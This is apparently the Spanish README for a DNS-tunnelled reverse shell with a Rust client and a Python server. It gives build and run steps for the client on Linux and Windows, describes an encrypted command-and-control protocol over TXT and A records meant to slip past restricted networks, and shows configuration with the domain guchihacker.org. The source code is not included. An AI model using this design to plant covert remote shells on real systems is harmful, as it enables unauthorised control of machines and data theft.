# Reverse Shell sobre DNS

Este proyecto implementa una reverse shell que utiliza el protocolo DNS para la comunicación entre un cliente (escrito en Rust) y un servidor (en Python). Es ideal para situaciones donde el tráfico convencional está restringido, pero el DNS sigue permitido.

---

## Estructura del Proyecto

```
dns_rev/
├── dns_client/         # Cliente en Rust
│   ├── src/
│   │   ├── main.rs
│   │   ├── config.rs
│   │   ├── command.rs
│   │   ├── dns.rs
│   │   └── crypto.rs
│   ├── Cargo.toml
│   └── Cargo.lock
├── dns_server/         # Servidor en Python
│   ├── main.py
│   ├── requirements.txt
│   └── tests/
│       └── client.py
├── setup.sh            # Script de instalación para dependencias
├── generate.sh         # Script de generación y configuración del cliente
```

---

## Instalación

### Servidor (Python)

1. **Instala los requerimientos:**
   ```bash
   pip install -r dns_server/requirements.txt
   ```
   El archivo incluye:
   - `dnslib`
   - `cryptography`

2. **(Opcional) Ejecuta el setup para dependencias en Linux:**
   ```bash
   bash ./setup.sh
   ```

3. **Inicia el servidor:**
   ```bash
   python dns_server/main.py
   ```

### Cliente (Rust)

1. **Genera y configura el binario del cliente:**
   
   Ejecuta el script de generación:
   ```bash
   bash ./generate.sh
   ```
   - El script te pedirá la IP del servidor DNS y la actualizará automáticamente en la configuración del cliente.
   - Te permitirá elegir el sistema operativo de destino (Linux o Windows) y compilará el binario correspondiente.
   - El binario generado se copiará automáticamente al directorio actual con el nombre adecuado (`dns_client_bin` para Linux o `dns_client.exe` para Windows).

2. **Ejecuta el binario generado:**
   - En Linux:
     ```bash
     ./dns_client_bin
     ```
   - En Windows:
     ```cmd
     dns_client.exe
     ```

---

## Protocolo de Reverse Shell sobre DNS

- **Cifrado:** Toda la comunicación está cifrada usando ChaCha20Poly1305.
- **Intercambio de claves:** El cliente solicita la clave y nonce al servidor usando subdominios especiales (`cipher.<dominio>`).
- **Comandos:** El servidor envía comandos fragmentados en registros TXT bajo el subdominio `cmd.<dominio>`.
- **Respuestas:** El cliente ejecuta el comando y envía la salida fragmentada en registros A/TXT bajo el subdominio `output.<dominio>`.
- **Fragmentación:** Los mensajes largos se dividen en fragmentos para ajustarse a las limitaciones del protocolo DNS.
- **Control:** El servidor mantiene el estado y controla la autorización de clientes por IP.

---

## Personalización: Dominios y Subdominios

Para adaptar el proyecto a tu infraestructura, debes modificar los siguientes valores:

### En el Servidor (`dns_server/main.py`)

Busca las siguientes variables al inicio del archivo:
```python
DOMINIO_BASE = "guchihacker.org"  # Cambia por tu dominio
CMD_SUBDOMINIO = f"cmd.{DOMINIO_BASE}"
OUTPUT_SUBDOMINIO = f"output.{DOMINIO_BASE}"
CIPHER_SUBDOMINIO = f"cipher.{DOMINIO_BASE}"
```
Cambia `"guchihacker.org"` por tu dominio propio y asegúrate de que apunte a tu servidor.

### En el Cliente (`dns_client/src/config.rs`)

El script `generate.sh` te pedirá la IP del servidor DNS y la actualizará automáticamente. Si quieres cambiar el dominio base u otros parámetros, edita manualmente:
```rust
pub struct Config {
    pub dns_server: String,      // IP del servidor DNS
    pub base_domain: String,     // Dominio base (igual que en el servidor)
    ...
}
```
Por defecto:
```rust
dns_server: "127.0.0.1".to_string(),
base_domain: "guchihacker.org".to_string(),
```
Modifica estos valores para que coincidan con tu infraestructura.

---

## Tests

El servidor incluye un archivo de pruebas en `dns_server/tests/client.py` para validar la funcionalidad del cliente en Python.

---

## Video demo


---

## Notas de Seguridad

- **Uso ético:** Este software es solo para fines educativos y pruebas de seguridad en entornos controlados.
- **Dominio propio:** Usa siempre dominios y servidores bajo tu control.
- **Cifrado:** Toda la comunicación está cifrada, pero la seguridad depende de la confidencialidad de la clave y el control del dominio. 
